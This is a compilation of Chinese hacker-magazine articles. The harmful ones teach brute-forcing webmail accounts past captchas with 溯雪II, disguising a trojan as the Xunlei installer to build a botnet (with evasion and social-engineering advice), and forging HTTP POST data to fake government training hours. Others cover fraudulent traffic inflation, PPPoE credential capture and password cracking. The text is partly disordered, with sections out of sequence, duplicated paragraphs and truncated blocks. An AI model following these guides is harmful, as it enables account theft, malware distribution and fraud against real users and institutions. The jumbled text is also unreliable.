同样需要注意的是，每个网站的错误特征码也是不尽相同的。我们将这个错误提示信息复制到剪贴板，然后选中“按以上条件选择标记最多3个”，最后再将刚才复制的错误信息粘贴到下面的输入框中，如图5。所有设置完成后关闭这个窗口，这时“朔雪II”就会自动进行探测扫描了。由于“朔雪II”的探测扫描使用了多线程，所以很快就可以从软件的提示栏中看到破解的密码个数了。选择窗口中的“探测结果”，就可以查看破解出来的账号和密码信息了，如图6。利用破解出来的邮箱账户和密码信息，我们就可以非常方便地登录对方的网易邮箱了。

## 二、验证信息的破解

大家都知道，有的网站在登录的时候，会要求用户进行其它信息的验证，比如……Cookie信息或图片信息等，那么遇到这种需要进行信息验证的网站，我们又该如何使用“溯雪II”来进行破解呢？


图5


图6

我们在登录某个网站的时候，如果旁边出现了Cookie验证码输入框，那我们在提取表单元素的时候，往往就会看到一个和验证码相关的元素信息。比如我们测试的这个网站，表单元素chkcode这项对应的就是这个验证码信息。至于用户名和密码的选项设置，都和前面介绍的无需验证的网页破解一模一样。然后我们需要双击打开列表中的chkcode这项，在弹出的窗口中选中“提交到”，并在下拉列表中选择“Cookie[Item]”就行了，如图7。

现在在“溯雪II”界面的左下角，就可以看到一个名为“Cookie信息”的区域，我们要从中找到Cookie值对应的参数名称。首先在网页中看到验证码为3191，然后在“Cookie信息”窗口中找到3191，在它前面对应的就是验证码参数“Fchkcode”，将这个参数信息复制到剪贴板中，如图8。接下来点击溯雪II“运行”菜单中的“开始”命令，这时会弹出一个“Cookie[Item]”的提示窗口，我们将刚才复制到剪贴板中的信息粘贴到窗口中，最后再输入错误特征码，就可以进行破解操作了。


图7


图8


图9


图10

如果登录窗口出现的是图片验证码，那么又该如何进行操作呢？同样是在提取表单元素的时候，我们可以看到名为rand的元素，它对应的就是验证码。双击打开列表中的这个表单选项，在弹出的窗口中选中“提交到”，并在下拉列表中选择“验证码”，如图9。接下来在网页验证码的图标上点击鼠标右键，在弹出的属性窗口就可以看到图片的链接属性了。在“选择验证码图片链接”栏中，填写验证码图片的相关链接；在下面的“验证码信息”中选择列表中的第二个选项后，点击“读取测试”按钮，就可以验证获取的验证码信息是否和图片信息一样了，如图10。最后点击溯雪II“运行”菜单中的“开始”命令，在弹出的窗口设置错误特征码后，程序就可以进行相应的破解操作了。

（文章中所用到的“溯雪II”已收录到光盘中）

# 终极肉鸡逮捕绝招大法

皇城小兵

我做梦都想拥有3位数以上的肉鸡，但无奈对于漏洞、挂马这些技术一窍不通，最近终于费尽脑汁想出了一个超级忽悠的捉鸡大法。这还要归功于《黑客X档案》2008年合订本，我翻看上面的文章时，找到了一篇名为“纯手工忽悠木马攻略”的文章，由此灵感就诞生了。把方法再延伸了一下，估计一般的高手也检查不出来。


传统的捆绑方法都是一个样：一个捆绑器、2个文件，傻瓜式一点，OK了！但结果可想而知，被人简简单单地使用工具一检测，问题就被发现了。如图1所示，就是我使用UnBinder反捆绑工具的分离结果（随便拿工具来试验的），888是捆绑后的文件，选中的那个就是分离出来的其中一个文件，而上面那2个就是捆绑的文件了。

大家可以看到，传统的捆绑方法弊端有很多，最重要的一点是别人不确定这是什么工具时，就会产生怀疑。如果我们把迅雷捆绑放到它上面呢？来试试看吧！

### 第一步：制作批处理 thunder.bat


我们先使用批处理把两个文件捆绑起来，到迅雷的文件夹里把“Thunder.exe”复制出来，如图2，然后把它和“图标制作”（就当作是我们的小马）一起分别改成kllsfg.dll和u098si.dll。扩展名被更改掉了，文件当然不能正常打开了，这个也是我们的目的。接下来使用记事本编写一个批处理，代码如下：

```bash
start kllsfg.dll
start u098si.dll
```

选择“另存为”，文件名我使用的是“thunder.bat”（因为要伪装成迅雷嘛）。现在只要双击打开Thunder.bat，在同一目录下的kllsfg.dll和u098si.dll就会马上正常打开了（直接双击kllsfg.dll和u098si.dll是打不开的，只有使用批处理才能实现这个功能），这就是一个简单的捆绑。

## 第二步：批处理转EXE，提取迅雷图标

需要用到的工具是“批处理转EXE”。打开后把批处理中两句代码“start kllsfg.dll”和“start u098si.dll”复制进去，如图3，然后选择“工程”→“编译”，就生成了一个有批处理图标的EXE文件，如图4。

既然是把它伪装成迅雷，当然就得有迅雷的图标了。我们打开“万能图标提取器”，找到迅雷的位置，选中真正的迅雷EXE文件就可以提取了。然后右键点击图标，选择“提取选中图标”就行了，如图5。打开“文件图标修改器”，界面非常傻瓜化，选中文件和图标，把刚才生成的thunder.exe修改掉就可以了，如图6。


## 第三步：开始伪装

现在我们来看看真正的thunder（迅雷）文件夹里都是什么样子的，如图7。我们也新建一个文件夹，都伪装成一模一样的。图8中的那个uninst.exe也是我使用同样的方法把批处理修改而成的，具体代码如下：

```bash
@echo ************************
@echo 感谢您的支持
@echo ************************
@echo.
@pause
@echo ************************
@echo 卸载完毕
@pause
@echo off
```


图8

当我们点击运行后就是如图9所示的效果，呵呵，够专业吧！除了我在文件中打错了字外。不过一眼瞅上去是看不出来的，使用捆绑文件分析我们伪造的Thunder也是只有文件而已。

当然，这个迅雷是假的，卸载也是假的，一旦运行的话马上就会穿帮，而且大小也只有3M多一点。要知道真正的迅雷起码要20多M呢！大家可以把各个文件夹下的内容都伪造起来，那样可能就会大一点了（图中我伪装的文件夹里面全部都是空的）！


图9

最后我再提示一下，小马不要设置成自动删除，最好还要经过免杀处理。至于怎么传播，那就要看你的社工技术了！

（文章中所用到的“批处理转EXE”、“万能图标提取器”、EXE文件图标修改器已收录到光盘中）

# 从日IP过万到流量赚钱

无敌小龙（张博）

当今的网络，流量为王，如果你的网站有流量自然会日进斗金。本文我们就围绕如何获取流量来实现网赚。要想实现网站IP流量的迅速提升，是否也有捷径呢？答案是肯定的，那就是使用流量精灵。流量精灵的原理就是将所有人添加的网址统一放在服务端，然后随机分配给每一个客户端软件，由每一个客户端软件完成对网址的访问以提高流量。同时，只有挂着软件在线的用户的网址，才会在服务端分配给客户端软件。所以要想获得很大的流量，必须要满足两个条件：一是在线时间要长，二是最好要有多台电脑，因为流量精灵不支持多开。

你的网站排名也会很快地上去，如图1。另外，我们还可以在“流量优化”中设置“启用弹窗模式”，这样开启了流量精灵的用户就会在挂机时弹出你的网页了，非常有效，如图2。


图1


图2

下面我就手把手教大家如何刷流量。首先进入流量精灵的官方网站，打开后点击“立即下载”。下载好流量精灵后双击运行，只要在“我的网址”栏输入你的网站地址，并且点击“开始分享”按钮就会开始刷流量了。由于都是真实的IP数据，所以在图中我们可以看到，通过流量精灵，很快就可以获取近千的IP流量了。

但是只使用一个流量精灵，显然离我们获取超大流量来实现网赚的效果还是很远的。接下来我就教大家如何实现在本机多开。我们可以使用虚拟机，就是在本机搭建一个虚拟机环境，然后在虚拟机中多开一个流量精灵（这里需要注意的是：在“我的网址”中输入的地址不能是同一个页面，大家可以在实际操作中将不同的页面设置为目标网址），如图3。我们还可以使用沙盒来达到多开的目的，只要使用SANDBOX菜单中的“Create New Sandbox”（新建沙盒）来创建一个新的沙盒，如图4，然后再通过“Run Any Program”（运行任何程序）将目标程序添加到沙盒模式中运行就可以了，如图5、图6。


前面已经介绍了两种多开流量精灵的方法，接下来我再介绍如何使用SOCKSCAP这款工具实现多开。首先我们需要使用到一款名为亚伟代理的工具，如图7。通过该工具获取到可用的代理IP地址，然后再将可用的IP地址填写到SOCKSCAP的设置中，如图8。


我们来测试一下这个工具的实用性。通过该工具打开IE浏览器，然后来查询一下我们的IP地址，可以看到显示的是国外，如图9。这说明软件工作正常，我们将流量精灵添加到SOCKSCAP中并运行，如图10。


流量精灵工作正常，现在来测试一下流量精灵的作用。为了权威性，我们使用百度博客的流量统计。在图11中可以看到，近三个月我的博客都不曾突破1000 IP/日，但是通过流量精灵再配合多开，很快流量就超过2000了，其中最高日的近万IP就是通过流量精灵刷出来的。


有了流量后，如何进行网赚呢？关于这类的流量联盟在网上有很多，我们可以找一些口碑不错的，注册一个账户，然后将代码挂到自己的网站中就行了。

（文章中所用到的流量精灵、SANDBOX、SOCKSCAP已收录到光盘中）


# 偷天换日“好好”学习

> 厄尔尼诺

年终岁末，公务繁忙。年关之际，上级部门居然在内网中开展了初任公务员网上教育培训，要求所有在职人员都须达到10课时（10课时×60分钟＝600分钟）的培训要求。本来这是件无关痛痒的事，开着网页即可大功告成。不过这个系统设计得有点BT：在60分钟的时间内必须先点击“退出学习”按钮，然后再重新登录，才能统计学习时间，否则无论学习多长时间也不会统计为培训时间。

俗话说得好：山中方七日，世上已千年。如果身处仙境，须臾之间即可转换为世间几年。然而我们却身处俗世，无法躲进“时空隧道”进行“偷天换日”。尽管如此，我们依然可以通过各种不同的办法来快速达到10课时（600分钟）的培训要求。

## 一、分身之术

经测试，同一个工号可以同时多次登录系统，开着多个网页同步进行培训。只要在60分钟内分别点击“退出学习”按钮，学习时间就可以累计统计。如果不想开多个IE窗口，还可以考虑使用诸如Maxthon、FireFox之类的多标签浏览器。

我们以FireFox为例，使用某一工号登录教育系统后点击“学员空间”按钮，如图2，打开“培训空间”页面，然后选择其中一项课程，比如公文写作，点击“学习”按钮，如图3。

打开培训网页对话框，重新回到教育系统后点击“学员空间”，依照上述步骤分别打开多个培训网页对话框，在60分钟内分别点击“退出学习”按钮就可以累加统计学习时间了。


## 二、月光宝盒

大话西游中的至尊宝拥有一个月光宝盒，借助它可以穿越时空，返回到过去，去改变一些让人抱憾终生的事情。变速精灵也有类似“月光宝盒”的功能。它是一款电脑加速软件（采用纯软件方式变速，无损电脑硬件），可以用来调节程序运行速度的快慢，可以让程序度日如年，也可以让程序运行得如光阴似箭、岁月如梭。

第一步：以Maxthon为例，使用某人工号登录教育系统后点击“学员空间”，打开“培训空间”页面，然后选择其中一项课程，比如公文写作，点击“学习”，打开培训网页对话框。

在“XX省XXXXXX系统网上教育培训--网页对话框”窗口开始学习，运行WinSock Expert，选择监听的程序，如图7。过一会儿，点击“退出学习”按钮，发现学习时间是通过POST方式提交的数据（形如“lsh=...&coursename=...&onlinetime=102”）进行统计的。经过判断，其中“lsh”表示学习人员，“coursename”表示课程名称，“onlinetime”即为学习时间，“102”表示本次学习时间为102秒，如图8。


第二步：运行变速精灵，点击倒三角形加速按钮或者拉动拉杆滑块，如图4，将速度调为加快N倍（比如N=20，数值不宜太大，因为在不加速软件情况下，在60分钟时间内点击“退出学习”方可统计学习时间；而在运行变速精灵后，如果在60/N分钟内不点击“退出学习”即不计算学习时间，因此必须给予充足的时间——60/N分钟内可以点击“退出学习”按钮，否则就是竹篮打水一场空了），然后点击变速精灵的“选择对象”，选择“XX省XXXXXX系统网上教育培训--网页对话框”，如图5。如此设置运行了约3分钟时，我们点击“退出学习”按钮，就会发现学习时间已经统计了约3倍时间了，如图6。


## 三、终南捷径

诚然，上述两种方法都可以快速增加培训时间，但终究不是最快捷的方法。在讲求“时间就是生命，效率就是金钱”的年代，我们还要找到另外的终南捷径，实现一步到位，具体方法如下。

运行IE，输入工号进入培训系统，打开“XX省XXXXXX系统网上教育培训--网页对话框”窗口开始学习，运行Fiddler2。Fiddler具有嗅探功能，可以记录、调试IE与Web应用程序的交互，还可以查看向Web服务器发送的cookies内容、下载内容的大小等等（对于Windows XP SP3版本以下的用户，必须事先安装 .NET Framework 1.5及以上版本才行）。过一会儿，点击“退出学习”按钮，在Fiddler的界面上就同样留下了提交的数据及相关cookies的内容。在“Inspectors”中的“Raw”标签页下就可以显示相关数据内容了，如图9：

```http
POST /gsxx/SaveStudyInfoServlet HTTP/1.1
Accept: text/javascript, text/html, application/xml, text/xml, */*
Accept-Language: zh-cn
x-prototype-version: 1.6.0.2
Referer: http://172.23.0.86/gsxx/stuSpace/studentStudy-Win.jsp?lsh=579330e8e92111dea1b891746b7dd030&ext=2c9780d6258bf0fc01259029139c001b
x-requested-with: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
Host: 172.23.0.86
Content-Length: 99
Connection: Keep-Alive
Pragma: no-cache
Cookie: JSESSIONID=AF41AEBD0D379912F8A9E1C22AAE0AC1

lsh=579330e8e92111dea1b891746b7dd030&coursename=%E5%85%AC%E6%96%87%E5%86%99%E4%BD%9C&onlinetime=123
```

```http
Accept-Language: zh-cn
x-prototype-version: 1.6.0.2
Referer: http://172.23.0.86/gsxx/stuSpace/studentStudy-Win.jsp?lsh=579330e8e92111dea1b891746b7dd030&ext=2c9780d6258bf0fc01259029139c001b
x-requested-with: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
Host: 172.23.0.86
Content-Length: 99
Connection: Keep-Alive
Pragma: no-cache
Cookie: JSESSIONID=AF41AEBD0D379912F8A9E1C22AAE0AC1
```

按照学习时间的要求，修改POST方式提交的数据值，即修改“...&onlinetime=102”中“onlinetime”后面的“102”这个数值，比如修改为“22920”（其余未开始学习的课程时间值可修改为600分×60秒=36000秒），然后将修改时间统计值的POST数据粘贴到“Request Body”栏中，最后点击“Execute”执行，如图10。返回到“XX省XXXXXX系统网上教育培训--网页对话框”窗口，点击“退出学习”按钮，就可以完成学习要求了，如图11。对于其他课程均可以依葫芦画瓢进行操作。


我们返回到培训系统首页，点击“学员空间”，打开“培训空间”页面，打开“XX省XXXXXX系统网上教育培训--网页对话框”窗口重新开始学习，切换至Fiddler2窗口中的“Request Builder”选项，在“Parsed”标签页进行数据构造及数据提交。选择“POST”方式，在地址栏中填写绝对地址（http://IP+POST后面的数据提交地址），即“http://172.23.0.86/gsxx/SaveStudyInfoServlet”。在“Request Headers”栏中粘贴“Inspectors”中的“Raw”标签页中从“Accept”到“Cookie”的这一段内容，即：

```http
Accept: text/javascript, text/html, application/xml, text/xml, */*
```


（文章中所用到的变速精灵、WinSock Expert、Fiddler2已收录到光盘中）

# 傻瓜黑客

## 傻瓜“宽带我世界”突破联通的限制

我家使用的是吉林省的网通宽带，从2009年开始为了限制网络的使用，“宽带连接”（图1）都被强制改成了“宽带我世界”（图2）……通过查阅网络终于找到了两种解决方法：一种是手工方法；另一种就是软件破解（比如使用PPPoE拨号辅助工具 Ver1.00 Beta）。

先来分析一下原理：“宽带我世界”其实也是标准的 PPPoE 拨号，只不过在拨号前，按照规则要把用户名转换之后再进行拨号……我们来看第一种解决方法，这也是我最看好的方法……在“系统”里找到一个名叫“RemoteAccess”的事件……其中的“1:xixix”就是我的用户名。

- 1. 如果你的电脑没有安装 WinPcap 的话，就先安装目录下的 WinPcap_3.1 程序；
- 2. 将你的电脑直接连接到 ADSL MODEM 上；
- 3. 打开 code capture.exe 程序，选择你目前正连接着 ADSL MODEM 的网卡设备；
- 4. 单击“开始”，然后打开你的拨号程序，开始拨号；
- 5. 拨号成功后，code capture 会在账号密码显示栏里显示出你的认证账号和密码。

第二种方法是使用软件进行破解，要用到的软件名叫 PPPoE 拨号辅助工具 Ver1.00 Beta，如图6。该软件主要是用来捕捉 PPPoE 拨号时实际发送给服务器端的密码。使用的步骤如下：

为了大家更好地进行操作，我提供几个最常见的错误提示信息：

| 错误码 | 错误原因 |
|---|---|
| permission denied | 认证账号不通（示例） |

不管你使用第一种还是第二种方法，操作完成后把“宽带我世界”卸载掉，里面一共包括了四个程序：宽带我世界、网通安全卫士、灵信xx、网通客户端。现在整个网络世界终于变得清静了。通过这两种方法你已经知道如何上路由器了吧，还可以不用连接它来上网，用系统自带的就 OK 了。

（文章中所用到的 PPPoE 拨号辅助工具 Ver1.00 Beta 已收录到光盘中）

# 营救她的WPS OFFICE卸磨杀驴

支持国货的我卸载了微软的 Office，而改用了金山的 WPS Office 2009。从功能上来讲，WPS 远远超过了 Office，特别是它的插件功能，可以轻松实现功能上的扩展。但是在卸载了 Office 后，我却发现了三个问题：1、特殊字体没有了（如方正舒体、华文彩云、琥珀、楷体等）；2、Office 的剪贴画也随风而去了，WPS 自带的剪贴画少得可怜；3、制作 PPT 常用的声音效果在 WPS 演示中也缺失。

下面我就给大家介绍一下如何保留下 Office 的这些实用功能而给 WPS 使用。所需材料是完整光盘版 Office（精简版不行，因为字体、剪贴画等常被删减）。我就以手头上的 Office 2000 为例，其他版本也应大同小异。

进入光盘版 Office 目录，会看到很多文件，其中有一个名为“OFFICE1.CAB”文件，可以使用 WinRAR 打开。双击后按类型排序，会发现很多扩展名为“TTF”的文件，这些就是要找的字体文件。把它们解压到 `C:\WINDOWS\Fonts` 目录下，这时再看 WPS，原来的 Office 特殊字体就又回来了。

接下来是剪贴画。WPS 也自带了一些，路径通常在 `C:\Program Files\Kingsoft\WPS Office Personal\media\2052\imglib\`。看到剪贴画格式为 `.wmf` 后，可利用 Windows 搜索 `*.wmf` 文件，然后把搜索结果复制粘贴到 WPS 同样的目录中，或单独建立与“节目”目录同级的 `office` 目录保存。

至于声音效果，仍然按上面的办法，搜索 `wav` 格式文件，复制到硬盘上，需要时选择保存声效的路径即可。如此一来，既拥有了微软的华丽，又享受了 WPS 功能的强大。文中提到的字体、剪贴画和声效文件也被整理打包上传，文末给出下载地址。

# 汉字密码的简单应用

把汉字作为密码，不管是在数量上还是在记忆上都有其独到之处，但同时对于编程来说又是令人头疼的，字符的编码本身就是编程的一个大话题。本文不在于告诉大家如何编码，而是希望大家能够把它作为一种技巧，在某些时候不妨使用一下汉字密码！

## 一、Windows汉字密码+有效的权限=有效克制彩虹表密码破解器

在介绍之前，我们应该明白一个显而易见的道理，所有被攻击的系统都是处于联网与开机状态的……很多攻击者并不具备对 HASH 的敏感性——看到 HASH 能猜测出大体的密码组成元素（比如纯数字）！

### 要使用上面的思路，问题主要有以下两点：

- 1. 登录时 Windows 不允许汉字密码

如图1所示就是 Windows 密码输入时的一个截图，我们可以采用开机时修改系统密码为汉字密码，关机时修改系统密码为常规字符组成的密码……因此我们使用第二种方法，但是必须要加上相应的权限设置。

- 2. 使用汉字密码自己的方便性问题

不管是个人电脑还是服务器，在使用汉字密码时我们并不需要担心共享时的密码输入问题，如图2所示，是在本机使用汉字密码启动相应的 cmd.exe……同样在访问其它电脑时使用的密码也完全可以使用汉字密码。

实现起来就相对简单了，首先建立两个批处理文件，为了安全可以使用 bat2exe 之类的转换工具将 bat 文件转换成 exe 文件。

```bat
1.bat
@net user administrator 中国人民共和国万岁

2.bat
@net user administrator hacker
```

制作完成后将 1.bat 保存到 `C:\WINDOWS\system32\GroupPolicy\Machine\Scripts\Startup` 目录下，将 2.bat 保存到 `C:\WINDOWS\system32\GroupPolicy\Machine\Scripts\Shutdown` 目录下……然后将这两个文件夹的权限都设置为只有 administrator 独享。

单击图3中的“高级”按钮，将“从父项继承那些可以应用到子对象的权限项目”前面的勾去掉，如图4，在弹出的对话框中点击“删除”……再回到图3中点击“添加”，添加 administrator 并给予读取和运行权限。

最后，在“开始”→“运行”栏中输入 gpedit.msc 打开组策略，依次定位到“计算机配置”→“Windows 设置”→“脚本（启动/关机）”，然后依次双击打开右侧的启动和关机属性……

弹出的窗口中单击“添加”按钮，选择刚才保存的批处理文件，如图5。然后依次定位到“管理模板”→“脚本”→“组策略脚本的最长等待时间”，勾选上“已启用”，将其值设置为0，这是为了保证脚本执行成功，如图6。到这里汉字密码 Windows 系统完成任务。

对于网管管理员的密码来说，这是注入攻击首当其冲要解决的问题，而一般得到的密码都为其 HASH 值（一般为 MD5 加密算法得到的），现在网上的 MD5 查询方法也是使用的彩虹表破解思路，每个密码对应着一个 HASH，只要比对 HASH 就能知道明文密码了。通过使用汉字密码可以有效地防止这种破解，大家可以随便写一个汉字去看其 MD5 值，然后去 MD5 查询站点查询比对，目前根本就没有类似的密码 HASH 收集，显然也就无法被解了。

当然为了使用汉字密码，在使用 `<input>` 标签时，我们可以将 type 指定为 text，这样可以方便论坛会员输入汉字密码。如果修改为 text，其密码将会以明文方式显示出来，这时可以使用 `cininput()` 函数实现密码的隐藏，网上有类似的内容，这里就不再赘述了。

## 三、汉字密码编程

C++ 提供了 `wchar_t` 类型以支持 UNICODE 编码，Windows 提供了大量针对 UNICODE 编码的函数，可以方便我们实现汉字密码编程。这里面最关键的实现就是汉字的输入问题，虽然 `char` 类型可以输入汉字并能很好地显示，但是在汉字比较的时候（有密码的地方一定有验证），`char` 与 `wchar_t` 或者说扩展字符集是无法完成比较的，这时候我们可以使用 `MultiByteToWideChar()` 进行字符编码的转换然后再进行比较。同时 Windows 提供了两个版本的 API 函数，一个是 UNICODE 编码的，一个是 ANSI 编码的，如果要使用 UNICODE 版本则只要定义一个 UNICODE 的宏就可以了。

## 二、汉字密码WEB应用

在网上搜索了一下，发现有帖子说 QQ 也支持汉字密码，不过网上的方法是使用小键盘+ALT键，我在测试的时候并没有成功。其实 QQ 密码的安全性现在已经是相当高了：第一是密码多级设置，可以根据需要对网络交易、QQ硬盘、聊天记录进行密码设置；第二是号码异地登录时会有异常提示；第三是有较强的好友删除后恢复功能。所以对于 QQ 密码的安全，再也不是以前一个“阿拉QQ大盗”就可以搞定的年代了！

当然 Windows 提供的这些函数并不完善，如图7所示，`wcslen()` 显然无法像 `strlen()` 那样正确得到 `wchar_t` 数组的长度，这是因为 UNICODE 编码是为了实现软件交互的本地化，也就是说它的主要作用是为了处理汉字常量，而并不是汉字变量。因此我们要辩证地看待汉字密码，一方面要理解其在安全中的优势，另一方面也要明白它在编程中的不足，毕竟成型的计算机并不是我们中国人制造出来的。好了，文章就写到这里，作为一种思维的扩展，希望能对大家有所帮助。

虽然如此，但是在 WEB 登录，比如论坛用户登录的时候，使用汉字密码还是有相当强的作用的，不过大部分论坛登录密码都是“`<input type=password>`”类型的输入框，所以导致了不能输入汉字密码，我们可以通过复制粘贴来实现。对于网管管理员的密码来说，这是注入攻击首当其冲要解决的问题，而一般得到的密码都为其 HASH 值……

# 三招防“工信虎”：博士帮软件——文件夹加锁王企业版

> 清风长凤 [B.B.E]

外面正下着雨，闲来无事，就随手拿起了桌上的一本 X 的样刊，是09年12期的，把光盘放进光驱，来看看这期上面都有什么好玩的东西吧。结果在光盘的“安全之路”中看到了“文件夹加锁王2009企业正式版 V7.92 注册版”，如图1。我最近正在学习 Windows 系统核心编程，自己也编写了一个文件夹隐藏程序，使用的原理是驱动级 Ring0，然后 HOOK API 实现的。这是一种比较彻底的文件隐藏方式，我倒是想看看这个所谓的“企业版”有多厉害，莫非也使用了高级的驱动技术？

带着疑问与好奇，我从光盘上下载了这个程序并开始安装，默认是安装到 `C:\Program Files\Bssoft\folderlockprocn` 目录下的。安装完成后，我使用光盘里提供的注册码进行了注册，其界面如图2所示，居然还有公司网站等信息，还挺全的，呵呵，看似很正规哦！

还是先来看看“文件夹隐藏”功能吧，毕竟我最近正在研究它。我在 C:\ 下新建了一个名为 test 的文件夹，在 test 文件夹下又建了一个名为 MyHide 的文件夹，然后把一个 1.06G 大小的电影放了进去，如图3。因为这个软件的说明里说了，不到1秒钟就可以加密2G的文件夹（其实这根本就不算什么，我编写的文件夹隐藏程序加密几TB的文件夹只用0.000001秒钟呢）。下面我们开始隐藏 `C:\test\MyHide` 文件夹，如图4，提示隐藏成功了，打开 `C:\test` 目录查看，文件确实不见了，真强大啊。

为了搞明白加密的原理，我又使用了一个自己编写的 filemon 程序，这个程序 HOOK 了 `CreatFileA` 函数来监视文件创建。我把刚才隐藏的 `C:\test\MyHide` 先使用加锁王恢复回来，打开 filemon 程序，然后再次进行了刚才的隐藏文件夹操作，如图5。大家看到没有，我的 filemon 提示有文件创建了，看名字是不是很熟悉呢。我们使用冰刃来看看是什么情况，如图6。原来我的 MyHide 文件夹被转移到了 `C:\Recycled` 文件夹下了，当然使用冰刃的复制功能就能轻松将文件夹拷贝出来了，看来这个文件夹隐藏只是个摆设啊。

接下来我们再看看文件夹加密功能，还是选择 `C:\test\MyHide` 文件夹，密码随便输入，加密完成了，如图7。我们再来到 `C:\test` 看看原来的文件夹被加密成了什么样，如图8：原文件夹不见了，出来了一个 `MyHide.{BDEADF00-C265-11D0-BCED-00A0C90AB50F}`，点进去却是一个 MSN 站点的链接。

还是使用“加锁王”恢复我们刚才加密的文件夹，然后打开 filemon 程序对进程动作进行监视，如图9，只需要关注 filemon 程序的第二行和最后两行……文件成功找到了，直接使用冰刃复制出来，设密码根本就没有，再一次证明了这个软件只是个“花瓶”而已。

这种软件只能做个障眼法，去骗一下技术很菜的电脑使用者……除非那个隐藏软件使用了十分高级的技术，否则还没有不能被冰刃这类软件找到的文件隐藏技术。

不过使用它隐藏的文件夹也能够直接被冰刃找到，但是对于普通用户几乎是完全不可见的……大家可以试用一下。最后我再说一下，同样在文档中还有个“便携式文件夹加密器 5.43 注册版”，只使用冰刃就可以搞定了。

（文章中所用到的 filemon、冰刃、作者写的文件夹隐藏——Ring3 普通技术版已收录到光盘中）

# 密码破解——总概念

## 一、密码

密码是一种用来混淆的技术，可以把正常的信息转变为无法识别的信息。英文名称为 password，而“口令”是密码在中文的统称……如果我们的密码被泄露或者被有心之人破解，后果将不堪设想。

## 二、密码字典

密码字典一般是用来暴力破解密码的，由一些特定字符组成的文本文件，其中包含常用的、有规律的或很多人习惯性设置的密码，主要配合破解软件使用。

下面我就以“黑客字典”为例来简单介绍如何生成一个字典文件，如图1。在“设置”选项中可以设置生成密码类型，如果“字母”和“数字”都选上，那么生成出来的则是字母在数字前的混合型密码……

在“选项”中，可以设置字母的大小写，或者是数字在字母前的混合型密码，其它保持默认即可。在“文件存放的位置”中设置以“dic”为后缀名的密码字典生成后的保存位置。

在“高级选项”中还可以设置字母、数字和特殊符号排列顺序的位置。需要注意的是，它们的排列位置必须根据你前面所选择的密码类型去选择。如果我们前面只选择了3位字母和2位数字的话，那么在高级选项中，可以第1位为字母，第2位为数字，第3位为字母，第4位为数字，第5位为字母，生成的字典效果如图3。

高级选项适合那些有特定需求的用户使用，大家可以根据自己的实际情况去选择，一般使用默认的设置也就足够用了。其它一些密码字典生成工具的使用方法也都类似，这里就不作同样的介绍了。

## 三、密码的破解

### 1、RAR密码的破解

相信和大家打交道最多的就是 RAR 文件了。RAR 文件用于数据压缩与归档打包，也是我们最常用的一种文件压缩软件。除了压缩外，RAR 程序还可以用来对文件或文件夹进行加密，但别忘记了，前提是你的电脑中已经安装了 RAR 软件。选中要加密的文件后点击右键，选择“添加到压缩文件”，在窗口中选择“高级”，然后在右方选择“设置密码”，输入密码后，点击“确定”就行了，如图4。

我们今天的主题并不是加密，而是如何破解。接下来我们就看看如何破解使用 RAR 压缩加密的文件。使用到的工具是 RAR Password Recovery V1.1 免安装版，其运行后的界面如图5所示。我们先点击上方的“打开”或是通过“浏览”按钮，选择我们要解密的 RAR 文件，如图6。

破解的速度取决于破解密码的复杂程度，换句话说密码搭配越简单或者密码长度越短，则破解速度也就越快。目前，RAR Password Recovery 支持三种破解方式。我们在软件窗口中可以分别选择使用“暴力破解”“加速破解”和“字典破解”这三种方式来对文件进行破解，如图7。

我们先从“暴力破解”开始。“密码长度”可以根据实际情况进行设定，如果你有足够多的时间，那么最小长度可以从1位设起，最大长度可以设为16。其实只要想破解16位的纯数字密码，真是很困难，因为这种密码组合实在是太大了；而如果是破解数字加字母混合型的密码，那简直就是不可能完成的任务。从实际情况出发，我建议密码的最小长度设为5或者6开始，最大长度可以设为13或者15，可以尝试先从纯数字破解，再分别到大小写字母或多选。“加速破解”与“暴力破解”可以说是同一种破解手段，但加速破解可以加快破解的速度。率动降低，因此大家需要根据实际情况来选择，可以先尝试一下加速破解。切换到下方的“加速引擎”，“优化级别”可以优先选择可能性比较高的字符进行破解，“加速级别”就是破解时的速度，有低、高、极端三种选择。而“字典破解”，顾名思义也就是使用我们的字典文件进行破解了，前面我们已经介绍过了字典的生成和配置，切换到下方的“字典”，“词汇列表文件名”就是我们的字典文件，可以通过下方的“选择”按钮进行选取，其他的保持默认就行。

选择好破解方式后，就可以点击上方的“开始”按钮进行破解了，右边显示的是当前破解的状态，如图8。如果运气好的话，很快就可以把密码跑出来了，如图9。如果密码很BT，那么我只好建议在虚拟机里多开几个RAR Password Recovery软件来同时进行不同字符类型的密码破解，以提高破解的效率。

使用一个小工具 Office Password Remover 就可以瞬间移除 Word 和 Excel 文档的密码了，如图10。它可以帮助我们直接移除掉 Word 和 Excel 文档的密码，但是使用这个软件，我们的电脑必须能够连接到互联网上，它会发送一些少量数据信息到软件服务器，然后直接帮我们把文档的密码移除掉并保存为另一文件，不管所设置的密码有多强悍，其破解的速度都是相当快的。比如 x.doc 是带有密码的文件，而 x(DEMO).doc 为解密后的文件，我们直接打开就不需要输入任何密码了，如图11。对于 Excel 文档的解密也是一样的，选择要解密的 Excel 文档，然后点击下方的“移除密码”按钮，等待不超过10秒的时间，就可以直接把 Excel 文档的密码移除掉了，如图12。

### 2、Microsoft Office Word&Excel密码破解

相信大家对于微软的 Word 文档和 Excel 文档都非常熟悉吧，我们在日常使用和学习中一般都离不开跟这些文件打交道，而 Word 和 Excel 都支持对文档进行加密，因此有些公司或者老师就会把一些重要的数据资料写进或记录在 Word 和 Excel 文档里，然后设置一个密码就认为十分安全了。其实不然，我们只需要使用一个小工具 Office Password Remover 就可以瞬间移除密码。

### 3、Microsoft Office PPT密码破解

关于 Word 和 Excel 的密码破解，大家会经常听说，那对于 PPT 的密码破解你有没有听说过呢？要用到的工具为 Advanced Office Password Recovery，在使用前我们得先运行该目录下的“@Install_绿化.exe”进行绿化安装，然后就可以双击打开“aopr.exe”了，如图13。

